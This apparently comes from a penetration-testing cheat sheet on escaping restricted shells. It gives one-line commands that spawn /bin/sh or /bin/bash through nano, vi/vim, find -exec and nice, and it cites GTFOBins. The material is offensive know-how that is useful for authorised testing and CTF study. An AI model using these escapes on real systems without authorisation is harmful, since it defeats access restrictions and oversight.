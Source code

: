 # Binary Execution

## 01 - Editors

### 1.1 - Nano

Launch the program then run the two shortcuts.

```
$ nano
CTRL + R
CTRL + X
```

Then open the shell

```
reset; /bin/sh 1>&0 2>&0

reset; /bin/bash 1>&0 2>&0
```

### 1.2 - Vi(m)

Open the text editor program.

```
$ vim

$ vi
```

Escape restricted shell in `vim` or `vi`.

```
:!/bin/sh

:!/bin/bash
```

Escape restricted shell in `vi`. You must set a predefined `shell` variable and invoke it.

```
:set shell=/bin/sh

:set shell=/bin/bash

:shell
```

## 02 - Find Files

```
$ find / -name "<name>" -exec /bin/sh \;

$ find / -name "<name>" -exec /bin/bash \;
```

## 03 - `nice`

```
$ nice /bin/sh

$ nice /bin/bash
```

---
## References

- [GTFOBins: Rvim](https://gtfobins.github.io/gtfobins/rvim/)

- [GTFOBins: Vim](https://gtfobins.github.io/gtfobins/vim/)

- [GTFOBins: Vi](https://gtfobins.github.io/gtfobins/vi/)

- [GTFOBins: Vimdiff](https://gtfobins.github.io/gtfobins/vimdiff/)
